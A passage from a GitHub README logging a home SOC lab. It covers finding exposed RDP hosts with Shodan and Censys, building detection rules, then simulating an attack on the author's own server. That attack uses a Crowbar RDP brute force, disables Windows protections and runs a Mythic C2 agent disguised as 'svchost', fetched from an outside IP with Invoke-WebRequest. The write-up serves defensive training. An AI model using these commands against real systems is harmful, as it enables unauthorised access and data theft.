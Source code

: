 - **Using Shodan**: Search for servers with exposed RDP on the default port.
  ![Shodan Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2043%20Creating%20an%20account%20with%20shodan%20and%20searching%20port%203389.PNG) 
- **Using Censys**: Perform the same search to verify results.
  ![Censys Search](link_to_your_image) 
  ![Censys Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2044%20Using%20Censys%20for%20Finding%20open%20RDP%20ports%20too.PNG) 

### 2. Monitoring Failed RDP Attempts
- Created a log query for failed RDP attempts and confirmed my own failed login.
  ![Failed RDP Log Query](link_to_your_image) <!-- Replace with actual image link -->
- Generated alerts similar to earlier SSH queries.
  ![Alert Generation](link_to_your_image) <!-- Replace with actual image link -->
  ![Failed RDP Log Query](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2045%20Saving%20a%20log%20query%20for%20Failed%20RDP%20Login%20Attempts%2C%20seeing%20my%20own%20log!.PNG) <!-- Replace with actual image link -->
- Created an alert for failed RDP attempts.
  ![Alert Generation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2046%20Creating%20the%20Alert%20rule%20for%20failed%20RDP%20Attempts.PNG) <!-- Replace with actual image link -->
- Executed a brute force attack on my Windows server to generate an alert.
  ![Brute Force Alert](link_to_your_image) <!-- Replace with actual image link -->
  ![Brute Force Alert](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2047%20Generating%20an%20alert%20via%20brute%20force%20RDP.PNG) <!-- Replace with actual image link -->

### 3. Configuring Detection Rules
- **Detection Rule Setup**:
    - Current rules only query thresholds; need to create detection rules under **Security**.
      ![Detection Rule Setup](link_to_your_image) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment.
      ![Preconfigured Rules](link_to_your_image) <!-- Replace with actual image link -->
      ![Detection Rule Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2048%20This%20is%20where%20we%20make%20REAL%20alerts.PNG) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment. I chose to make my own
      ![Preconfigured Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2049%20Lets%20Create%20a%20new%20rule.PNG) <!-- Replace with actual image link -->
    - Configured data involved in the new rules, mirroring the process used for SSH attempts.
      ![Configuring New Rules](link_to_your_image) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%205%20Set%20it%20to%20this%20so%20you%20can%20access%20it%20via%20SOC%20Laptop.png) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2050%20Select%20this%20type%20of%20rule.PNG) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2052%20My%20new%20rules%20are%20set.PNG) <!-- Replace with actual image link -->

### 4. Data Visualization
- Created maps for new RDP data queries (following SSH attempt mapping steps).
  ![RDP Data Map](link_to_your_image) <!-- Replace with actual image link -->
- Developed tables for dashboard visualization:
    - **Failed and Successful SSH Attempts** to the exposed Ubuntu server.
      ![SSH Attempts Visualization](link_to_your_image) <!-- Replace with actual image link -->
      ![SSH Attempts Visualization](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2054%20Created%20some%20tabled%20for%20my%20dashboard%20to%20visualize%20SSH%20data%20on%20my%20linux%20server.PNG) <!-- Replace with actual image link -->
    - **RDP Activity Tracking** on the exposed Windows server.
      ![RDP Activity Table](link_to_your_image) <!-- Replace with actual image link -->
      ![RDP Activity Table]([link_to_your_image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2055%20Made%20some%20tables%20for%20the%20RDP%20activity%20on%20Windows%20Server.PNG)) <!-- Replace with actual image link -->

### 5. Attack Diagram Creation
- Created an attack diagram outlining the threat actor's process.
  ![Attack Diagram](link_to_your_image) <!-- Replace with actual image link -->
  ![Attack Diagram](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2056%20Network%20Attack%20Diagram.PNG) <!-- Replace with actual image link -->

### 6. Setting Up Mythic C2
- **Spin Up Ubuntu Server**:
    docker-compose up -d
    sudo systemctl restart docker
    ```
  ![Ubuntu Server Setup](link_to_your_image) <!-- Replace with actual image link -->
- Verified Docker status before restarting the service.
  ![Docker Status](link_to_your_image) <!-- Replace with actual image link -->
  ![Ubuntu Server Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2057%20Install%20Mythic%20Github%20Repo.PNG) <!-- Replace with actual image link -->
- Checked Docker status before restarting the service.
  ![Docker Status](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2058%20run%20the%20docker%20install%20command%20in%20your%20mythic%20directory.PNG) <!-- Replace with actual image link -->

### 7. Starting Mythic
- Run the following command to start Mythic:
    ```bash
    make
    ./mythic-cli start
    ```
  ![Starting Mythic](link_to_your_image) <!-- Replace with actual image link -->
### 8. Configuring Mythic
- Tightened firewall rules, allowing exceptions for Windows and Ubuntu servers.
  ![Firewall Configuration](link_to_your_image) <!-- Replace with actual image link -->
  ![Firewall Configuration](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2059%20This%20is%20what%20my%20firewall%20looks%20like%20now%2C%20only%20allowing%20my%20windows%20and%20linux%20server%2C.PNG) <!-- Replace with actual image link -->
- Accessed Mythic web GUI:
    - Default user: `mythic_admin`
    - Find password with:
        ```bash
        cat .env | grep -i admin_password
        ```
  ![Mythic GUI Login](link_to_your_image) <!-- Replace with actual image link -->
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2060%20Get%20your%20mythic%20admin%20password.PNG) <!-- Replace with actual image link -->
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2061%20We're%20in%20the%20mythic%20dashboard!.PNG) <!-- Replace with actual image link -->
### 9. Preparing for the Attack
- Created a target file on the Windows VM with admin password.
  ![Target File Creation](link_to_your_image) <!-- Replace with actual image link -->
- Moved to Kali Linux's wordlists directory and prepared `rockyou.txt`:
- Created a target file on the Windows VM with admin password called "passwords.txt"
- Moved to Kali Linux machine wordlists directory and prepared `rockyou.txt`:
    ```bash
    gunzip rockyou.txt.gz
    head -n 50 rockyou.txt > ~/Documents/top_50_words.txt
    ```
  ![Preparing Wordlists](link_to_your_image) <!-- Replace with actual image link -->
  ![Preparing Wordlists](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2062%20lets%20access%20our%20wordlists%20directory.png) <!-- Replace with actual image link -->
### 10. Brute Force with Crowbar
- Added the Windows password to the wordlist for easier access.
  ![Wordlist Modification](link_to_your_image) <!-- Replace with actual image link -->
- Added the Windows password to the wordlist for easier access. This way we can simulate our attack as if someone brute forced
- Installed Crowbar:
    ```bash
    sudo apt-get install -y crowbar
    ```
  ![Crowbar Installation](link_to_your_image) <!-- Replace with actual image link -->
- **Target File Setup**: 
    - Created `target.txt` containing the public IP and username:
      ```
      155.138.220.109 Administrator
      ```
  ![Target File Setup](link_to_your_image) <!-- Replace with actual image link -->
  ![Crowbar Installation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2064%20Crowbar%20Successfully%20installed.png) <!-- Replace with actual image link -->
- (Note, I extracted the first 50 words in rockyou.txt to a file named top_50_words.txt, this is the text file i added the windows server password into)
- **Brute Force Command**:
    ```bash
    crowbar -b RDP -u Administrator -C top_50_words.txt -s 155.138.220.109
    ```
  ![Brute Force Command](link_to_your_image) <!-- Replace with actual image link -->
  ![Brute Force Command](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2066%20Successful%20brute%20force!.png) <!-- Replace with actual image link -->
### 11. RDP Session Access
- Used `xfreerdp` to access the RDP session:
    ```bash
    xfreerdp /u:Administrator /p:Winter2024! /v:155.138.220.109
    ```
  ![Accessing RDP Session](link_to_your_image) <!-- Replace with actual image link -->
  ![Accessing RDP Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2067%20Successfully%20in%20the%20RDP%20session!.png) <!-- Replace with actual image link -->
- Executed commands for intelligence gathering:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```
  ![Command Execution](link_to_your_image) <!-- Replace with actual image link -->
- Turn off windows protection
- ![image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2068%20lets%20disable%20all%20the%20protection.png)
### 12. Created the payload with your installed services:
    - Ensured it calls back to the C2 server's public IP.
      [image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2073%20put%20what%20you%20want%20in%20your%20payload%2C%20and%20make%20it%20call%20back%20to%20your%20C2%20server.PNG)

### 12. Downloading and Executing Payload
### 13. Downloading and Executing Payload
- SSH into Mythic server and download agent:
    ```bash
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```
  ![Mythic Agent Download](link_to_your_image) <!-- Replace with actual image link -->

- Install HTTP profile:
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```
  ![HTTP Profile Installation](link_to_your_image) <!-- Replace with actual image link -->

- Created payload:
    - Ensured it calls back to the C2 server's public IP.
    - Downloaded the payload using:
- Allow port 80:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ufw allow 80
    ```
  ![Payload Creation](link_to_your_image) <!-- Replace with actual image link -->

### 13. Finalizing the Attack
- Allowed HTTP connection on firewall:
  - Allow port 9999:
    ```bash
    ufw allow 80
    ufw allow 9999
    ```
  ![Allowing HTTP Connection](link_to_your_image) <!-- Replace with actual image link -->
- Ran the payload on the Windows server.
  ![Payload Execution](link_to_your_image) <!-- Replace with actual image link -->
    
- run the python session:
    ```bash
    python3 -m http.server 9999
    ```
    
- Downloaded the payload onto our windows server RDP session:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ```
  ![Payload Creation](link_to_your_image) <!-- Replace with actual image link -->
### 14. Monitor The Connection
- Result of the payload on the Windows server.
  ![Payload Execution](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2077%20We%20can%20see%20our%20established%20session.PNG)
- Monitored Mythic GUI for established session and confirmed successful file extraction from the agent.
  ![Mythic GUI Session](link_to_your_image) <!-- Replace with actual image link -->
  ![Mythic GUI Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2078%20Our%20attack%20was%20successful%2C%20we%20got%20the%20file.PNG) <!-- Replace with actual image link -->

## Conclusion
This week focused on simulating a brute force RDP attack while setting up the Mythic C2 server. Key tasks included finding exposed RDP servers, configuring detection rules, and creating payloads for further exploitation.
